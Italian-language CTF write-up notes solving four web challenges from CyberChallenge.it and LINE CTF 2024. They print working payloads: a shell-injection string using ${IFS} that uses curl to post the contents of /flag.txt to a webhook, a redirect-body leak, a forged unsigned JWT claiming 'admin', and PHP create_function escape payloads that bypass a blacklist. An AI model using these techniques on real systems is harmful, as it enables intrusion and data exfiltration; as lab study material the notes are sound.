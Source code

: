 
## Basic RCE:

==link== = “[http://basicrce.challs.cyberchallenge.it/](http://basicrce.challs.cyberchallenge.it/)”

==solve:==
inviare una richiesta POST contenente la flag a un webhook.

==note:==
[[Special Characters and Regex in Shell Commands#Regex|Regex]]
${IFS} - (sostitutivo di spazio per bash)
$(bash cmd) - (command sostitution)
[[Shell Commands|Shell Commands]]
awk - per comporre le stringhe

==payload:==
```bash
www.google.com|curl${IFS}-d${IFS}"idx=$(cat${IFS}/flag.txt)"${IFS}-X${IFS}POST${IFS}<webhook link>
```
------
## Admin:Admin

==link== = "http://adminadmin.challs.cyberchallenge.it/admin.php"

==solve:==
nello script PHP della pagina admin.php possiamo vedere che dopo il controllo dell'autenticazione della sessione viene settato `header(Location:login.php)`, tuttavia manca un `exit()` o un `die()` per terminare i dati nella risposta.
Dunque si ottiene un redirect con un body.

Curl ottiene l'header ma non fa il redirect, legge la singola risposta ricevuta.

==payload:==
```bash
curl -v -X GET http://adminadmin.challs.cyberchallenge.it/admin.php
```
---
## LINECTF2024 | jalyboy-baby

==link== = "http://34.84.28.50:10000/"

==solve==:
La challenge utilizza un sistema di firma digitale(JWT)
che e' formato da una stringa, inviata tramite un parametro j, costruita in questo modo:
`<algoritmo>b64.<subject>b64.firma-calcolata`

dove:
- algoritmo -> {"alg":"HS256"}
- subject -> {"sub":"guest"}
- firma -> sha256(algoritmo(b64)+subject(b64)+secret-key)

nello script back-end si puo' notare che si utilizza una funzione deprecata:
```java
Jwt jwt = Jwts.parser().setSigningKey(secretKey).parse(j);
```

e guardando nella documentazione troviamo che `setSigningKey`:
*`If the specified JWT string is not a JWS (no signature), this key is not used.`*

Dunque la soluzione e' quella di non fornire una firma e sostituire il parametro `sub` da `{"sub":"guest"}` a `{"sub":"admin"}` e poi convertirlo in base 64 -> `eyJzdWIiOiJhZG1pbiJ9`

==payload:==
`<URL>/j=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.<null>`

---
# PHP is Love PHP is Life

==link== = http://phpislove.challs.cyberchallenge.it/

solve:
facendo alcuni tentativi e guardando il source code e' possibile notare che lo **user input** viene preso nella variabile `$code` e compare due volte. Nella prima viene controllata e sanitizzata con la funzione `preg_match()` che non e' exploitabile in questo caso.

Tuttavia successivamente viene usata una funzione **deprecata** di PHP chiamata `create_function(<params>,<function-code>)` che effettua un `eval()` del codice inserito e lo esegue come codice in una funzione anonima.

Si puo' notare inoltre che un commento impedisce la visualizzazione della funzione creata percio' se la funzione che componiamo va a buon fine otterremo la risposta di default ovvero: `This function is disabled.` Se invece non si visualizza alcun output significa che c'e' stato un problema di compilazione nella funzione anonima costruita.

da qui l'unico modo per ricevere un output e' con un payload che permetta di uscire dallo scope della funzione anonima ed eseguire codice normale ricordandosi pero' della blacklist.

==payload:==
```php
return 0;}; print 1;//
```
in questo caso chiudiamo la funzione anonima con un return 0 e una parentesi } per poi scrivere altro codice fuori da essa come ad esempio `print 1;` che e' una funzione deprecata con la stessa finalita' di `echo`.

una volta visualizzato l'output grazie a questo payload bisogna capire come visualizzare il contenuto della variabile `$flag`. 

Questo si puo' fare in diversi modi, quello che ho usato e' stato prendere la stringa "flag" dall'array di stringhe blacklisted in modo da utilizzarla per chiamare la variabile con la simbologia `${$var}`.

Tuttavia la blacklist impedisce l'uso di parentesi `[]` e dunque non si puo' selezionare un elemento `n` dall'array.

Pero' con ricerche sulla documentazione e' possibile notare un dettaglio fondamentale che dichiara la possibilita' di specificare indici di array con `{}` nelle versioni di PHP precedenti alla `8.0.0`
![[Pasted image 20240325021733.png]]

dunque, avendo il seguente array: `$strings = ['eval', 'include', 'require', 'function', 'flag', 'echo'];`

era possibile costruire un payload di questo tipo:
```php
return 0;}; print ${$strings{4}};//
```
---
